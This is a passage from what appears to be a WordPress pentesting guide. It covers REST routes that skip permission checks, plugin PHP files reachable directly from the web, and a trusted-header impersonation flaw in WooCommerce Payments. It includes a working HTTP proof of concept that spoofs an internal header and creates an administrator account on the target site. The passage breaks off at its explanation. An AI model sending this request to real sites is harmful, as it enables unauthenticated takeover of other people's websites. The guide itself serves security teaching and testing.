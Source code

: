 - **REST API**

It's also possible to expose functions from wordpress registering a rest AP using the `register_rest_route` function:

```php
register_rest_route(
    $this->namespace, '/get/', array(
        'methods' => WP_REST_Server::READABLE,
        'callback' => array($this, 'getData'),
        'permission_callback' => '__return_true'
    )
);
```

The `permission_callback` is a callback to function that checks if a given user is authorized to call the API method.

**If the built-in `__return_true` function is used, it'll simply skip user permissions check.**

- **Direct access to the php file**

Of course, Wordpress uses PHP and files inside plugins are directly accessible from the web. So, in case a plugin is exposing any vulnerable functionality that is triggered just accessing the file, it's going to be exploitable by any user.

### Trusted-header REST impersonation (WooCommerce Payments ≤ 5.6.1)

Some plugins implement “trusted header” shortcuts for internal integrations or reverse proxies and then use that header to set the current user context for REST requests. If the header is not cryptographically bound to the request by an upstream component, an attacker can spoof it and hit privileged REST routes as an administrator.

- Impact: unauthenticated privilege escalation to admin by creating a new administrator via the core users REST route.
- Example header: `X-Wcpay-Platform-Checkout-User: 1` (forces user ID 1, typically the first administrator account).
- Exploited route: `POST /wp-json/wp/v2/users` with an elevated role array.

PoC

```http
POST /wp-json/wp/v2/users HTTP/1.1
Host: <WP HOST>
User-Agent: Mozilla/5.0
Accept: application/json
Content-Type: application/json
X-Wcpay-Platform-Checkout-User: 1
Content-Length: 114

{"username": "honeypot", "email": "wafdemo@patch.stack", "password": "demo", "roles": ["administrator"]}
```

Why it works

